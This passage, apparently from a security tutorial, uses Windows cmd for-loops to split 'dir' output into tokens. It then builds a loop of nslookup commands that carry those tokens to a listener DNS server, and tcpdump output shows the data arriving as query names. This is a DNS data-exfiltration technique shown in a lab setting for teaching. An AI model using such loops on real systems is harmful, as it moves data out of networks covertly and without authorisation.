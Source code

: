 

    C:\Users\0xdf\test>@echo off & (for /f "tokens=1-26" %a in ('dir') DO echo %c) & @echo on
    drive
    Number
    C:\Users\0xdf\test
    AM
    AM
    0
    4,917,178,368



I can also combine tokes as I see fit (a silly example):



    C:\Users\0xdf\test>@echo off & (for /f "tokens=1-26" %a in ('dir') DO echo %c-%b___%a) & @echo on
    drive-in___Volume
    Number-Serial___Volume
    C:\Users\0xdf\test-of___Directory
    AM-07:04___02/25/2019
    AM-07:04___02/25/2019
    0-File(s)___0
    4,917,182,464-Dir(s)___2



### nslookup Basics

Now I'll use what I know about looping to generate `nsloopup` commands.
If I start with this loop:



    C:\Users\0xdf\test> for /f "tokens=1-26" %a in ('dir') DO (nslookup %a.%b.%c. 10.1.1.41)



Here's what I see in `tcpdump`:



    root@kali# tcpdump -ni eth0 udp port 53
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
    11:35:55.294278 IP 10.1.1.153.56258 > 10.1.1.41.53: 1+ PTR? 41.1.1.10.in-addr.arpa. (40)
    11:35:55.296505 IP 10.1.1.153.56259 > 10.1.1.41.53: 2+ A? Volume.in.drive. (33)
    11:35:55.296723 IP 10.1.1.153.56260 > 10.1.1.41.53: 3+ AAAA? Volume.in.drive. (33)
    11:35:55.318089 IP 10.1.1.153.56261 > 10.1.1.41.53: 1+ PTR? 41.1.1.10.in-addr.arpa. (40)
    11:35:55.319970 IP 10.1.1.153.56262 > 10.1.1.41.53: 2+ A? Volume.Serial.Number. (38)
    11:35:55.320227 IP 10.1.1.153.56263 > 10.1.1.41.53: 3+ AAAA? Volume.Serial.Number. (38)
    11:35:55.339339 IP 10.1.1.153.56264 > 10.1.1.41.53: 1+ PTR? 41.1.1.10.in-addr.arpa. (40)
    11:35:57.338883 IP 10.1.1.153.56265 > 10.1.1.41.53: 2+ A? Directory.of.C:Users0xdftest. (46)
    11:35:57.339221 IP 10.1.1.153.56266 > 10.1.1.41.53: 3+ AAAA? Directory.of.C:Users0xdftest. (46)
    11:35:57.364436 IP 10.1.1.153.56267 > 10.1.1.41.53: 1+ PTR? 41.1.1.10.in-addr.arpa. (40)
    11:35:59.364047 IP 10.1.1.153.56268 > 10.1.1.41.53: 2+ A? 02/25/2019.07:04.AM. (37)
    11:35:59.365326 IP 10.1.1.153.56269 > 10.1.1.41.53: 3+ AAAA? 02/25/2019.07:04.AM. (37)
    11:35:59.423620 IP 10.1.1.153.56270 > 10.1.1.41.53: 1+ PTR? 41.1.1.10.in-addr.arpa. (40)
    11:36:01.426274 IP 10.1.1.153.56271 > 10.1.1.41.53: 2+ A? 02/25/2019.07:04.AM. (37)
    11:36:01.427472 IP 10.1.1.153.56272 > 10.1.1.41.53: 3+ AAAA? 02/25/2019.07:04.AM. (37)
    11:36:01.476957 IP 10.1.1.153.56273 > 10.1.1.41.53: 1+ PTR? 41.1.1.10.in-addr.arpa. (40)
    11:36:03.487602 IP 10.1.1.153.56274 > 10.1.1.41.53: 2+ A? 0.File(s).0. (29)
    11:36:03.489038 IP 10.1.1.153.56275 > 10.1.1.41.53: 3+ AAAA? 0.File(s).0. (29)
    11:36:03.537786 IP 10.1.1.153.56276 > 10.1.1.41.53: 1+ PTR? 41.1.1.10.in-addr.arpa. (40)
    11:36:05.527818 IP 10.1.1.153.56277 > 10.1.1.41.53: 2+ A? 2.Dir(s).4,917,108,736. (40)
    11:36:05.528172 IP 10.1.1.153.56278 > 10.1.1.41.53: 3+ AAAA? 2.Dir(s).4,917,108,736. (40)
